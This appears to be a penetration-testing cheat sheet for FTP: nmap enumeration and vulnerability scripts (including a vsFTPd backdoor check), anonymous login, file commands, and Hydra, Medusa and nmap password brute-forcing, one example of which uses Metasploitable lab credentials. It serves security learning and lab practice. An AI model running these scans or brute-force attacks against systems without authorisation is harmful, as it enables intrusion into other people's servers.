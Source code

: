 ```bash
nmap --script "ftp-*" -p21 <IP>
```

#### FTP Anonymous Login
```bash
# Connect to FTP server
ftp <IP>

# Login credentials for anonymous access
Username: anonymous (or ftp)
Password: (leave blank or enter any email)
```

#### FTP File Operations
```bash
# List files
ls

# Navigate directories
cd directory_name

# Upload a file
put test.txt

# Download a file
get important_file.txt

# Change to binary mode (for non-text files)
binary

# Exit FTP session
bye
```

#### FTP Vulnerability Scanning
```bash
# Check for vsFTPd backdoor
nmap --script ftp-vsftpd-backdoor.nse -p21 <IP>

# Scan for all FTP vulnerabilities
nmap --script "ftp-*" -p21 <IP>

# Check for brute force vulnerabilities
nmap --script ftp-brute.nse -p21 <IP>

# Check server configuration
nmap --script ftp-syst.nse -p21 <IP>
```

#### FTP Password Attacks
```bash
# Using Hydra with known username
hydra -l msfadmin -p msfadmin ftp://<IP>

# Using Hydra with username list and password list
hydra -L users.txt -P passwords.txt ftp://<IP>

# Using special options (-e nsr: try null password, same as login, reversed login)
hydra -L users.txt -e nsr ftp://<IP>

# Using Medusa
medusa -U users.txt -P passwords.txt -h <IP> -n 21 -M ftp

# Using Nmap
nmap --script ftp-brute.nse -p21 <IP>
```